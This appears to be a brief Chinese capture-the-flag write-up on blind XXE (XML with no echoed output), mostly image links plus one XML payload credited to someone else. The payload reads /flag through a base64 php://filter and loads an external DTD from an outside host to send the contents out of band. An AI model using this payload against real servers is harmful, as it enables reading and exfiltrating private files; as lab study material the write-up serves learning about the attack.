








# 知识点
XML无回显
# 思路
> 自己的方法一

<br /><br /><br />
> 别人的方法二

```xml
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM 
"php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM
"http://www.qiluo0133.com:1108/pd.dtd">
%dtd;
%send;
]>
```
<br /><br /><br /><br />
